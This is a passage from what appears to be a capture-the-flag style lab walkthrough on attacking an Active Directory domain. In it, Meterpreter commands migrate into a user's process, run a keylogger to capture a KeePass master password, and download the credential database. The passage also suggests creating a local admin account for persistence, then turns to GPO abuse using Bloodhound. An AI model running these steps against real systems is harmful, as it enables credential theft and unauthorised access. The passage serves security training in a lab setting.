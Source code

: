 - **Terminal**

```shell
meterpreter\>migrate 3612
[*] Migrating from 4408 to 3612...
[*] Migration completed successfully.
```

We can confirm that we are now running in the context of our target using the getuid command:

- **Terminal**

```shell
meterpreter\>getuid
Server username: THMSERVER1\trevor.local
```

Now we are ready to start our keylogger:

- **Terminal**

```shell
meterpreter\>keyscan_start
Starting the keystroke sniffer ...
```

Now we have to be patient and wait. If we are lucky, we will capture some  credentials! Give it a couple of minutes, and then run the following to  dump captured keystrokes:

- **Terminal**

```shell
meterpreter\>keyscan_dump
Dumping captured keystrokes...
keep<CR>
<Shift>Passwordpasswordpassword<CR>
```

This is a straightforward example of targeting AD users. There is a lot more that can be done. It is essential to include user targeting in your  exploitation methodology for AD. To answer the questions for this task  you will need Keepass. It has been installed on the AttackBox for you so you can just search for and run the application. If you are using your  own VM, on most Linux distros `sudo apt install keepassx` will work. Or you can download it from [here](https://keepass.info/download.html). Also make sure to use the meterpreter `download` command to download the Keepass database to you host. If you are using  Kali, make sure that the kali user owns the database file before you  open it, otherwise it might lock the database and give you incorrect  results.

Although persistence will only be discussed in the next  room, now might be a good time to create a local account on THMSERVER1  and grant it admin rights so you have a good foothold. Since this is not really needed for the rest of the tasks, if you want to do this, you  will need to do a bit of research on this yourself.

# Exploiting GPOs

Keylogging the user allowed us to decrypt their credential database,  providing us with credentials that can be useful to further our goal of  AD exploitation, namely the svcServMan account. We need to perform a bit of enumeration to figure out what these credentials will be useful for. Luckily for us, we already have Sharphound data that we can use. Using  the search feature in Bloodhound, let's review the permissions that the  discovered account has:


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami